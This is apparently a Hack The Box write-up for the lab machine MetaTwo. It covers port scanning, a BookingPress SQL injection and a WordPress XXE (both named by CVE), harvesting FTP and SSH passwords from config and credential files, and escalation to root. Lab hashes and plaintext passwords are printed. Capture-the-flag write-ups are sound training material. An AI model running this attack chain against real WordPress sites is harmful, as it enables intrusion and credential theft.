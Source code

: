 ```yaml
---
title: "Hack The Box - MetaTwo [Easy]"
date: 2023-04-21T19:42:27+03:00
draft: true
tags: ["hackthebox"]
---
```


Starting out with `rustscan`

```bash
Open 10.10.11.186:21
Open 10.10.11.186:22
Open 10.10.11.186:80
[~] Starting Script(s)
[~] Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 16:34 EEST
Initiating Ping Scan at 16:34
Scanning 10.10.11.186 [2 ports]
Completed Ping Scan at 16:34, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:34
Completed Parallel DNS resolution of 1 host. at 16:34, 0.23s elapsed
DNS resolution of 1 IPs took 0.23s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 16:34
Scanning 10.10.11.186 [3 ports]
Discovered open port 21/tcp on 10.10.11.186
Discovered open port 22/tcp on 10.10.11.186
Discovered open port 80/tcp on 10.10.11.186
Completed Connect Scan at 16:34, 0.05s elapsed (3 total ports)
Nmap scan report for 10.10.11.186
Host is up, received syn-ack (0.050s latency).
Scanned at 2023-04-21 16:34:41 EEST for 0s

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

We can see that we have an FTP open, this will be of use later on. Going to the main website on port `80` we can see that there is a some sort of blog site. Using `whatweb` we can get some versions:

```
http://metapress.htb/events/ [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.10.11.186], MetaGenerator[WordPress 5.6.2], PHP[8.0.24], PoweredBy[--], Script, Title[Events &#8211; MetaPress], UncommonHeaders[link], WordPress[5.6.2], X-Powered-By[PHP/8.0.24], nginx[1.18.0]
```

We can see that this is a WordPress and the booking thing certainly looks like a plugin, so let's see the name of the plugin:

```
GET /wp-content/plugins/bookingpress-appointment-booking/images/front-confirmation-vector.svg HTTP/1.1
Host: metapress.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://metapress.htb/thank-you/?appointment_id=NA==
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=cdoa77oamq1dbr9puh51s108jq
Connection: close
```

From this request, we can see that the plugin name is `bookingpress`, a simple google search would yield that this plugin is vulnerable to SQL Injection (`CVE-2022-0739`).

Using that vulnerability, we can get the password for the `manager` user

```
admin $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar
```

We can now log in into the `wp-admin` using the `manager` account.

From there we can see that the dashboard is pretty simple and the only pivoting point would be the upload of the media, so googling around I found `CVE-2021-29447` that exposes a XXE vulnerability in the Media Library.

[More Information](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)

I've used the exact exploit used in the article (with adjusted payloads). The exploit returned some files such as `/etc/passwd` from where I got the user `jnelson`, the `nginx` config `etc/nginx/sites-available/default`, and the `wp-config.php`. 

Using the config from the `nginx` I saw the path to the WordPress site.

```
root /var/www/metapress.htb/blog;
```

And I've got the `wp-config` on this location `/var/www/metapress.htb/blog/wp-config.php`

```php
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
```

From there we can log into the FTP, and there we can see the `send_email.php` file, inspecting it we will see the password for the `jnelson`. Now, we can log in using `ssh`. 

The root credentials are in the `~/pass` file.

```bash
jnelson@meta2:~$ cat user.txt
<hash>
jnelson@meta2:~$ cat pass
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
jnelson@meta2:~$ su - root
Password: 
root@meta2:~# cat /root/root.txt
<hash>
root@meta2:~# 
```
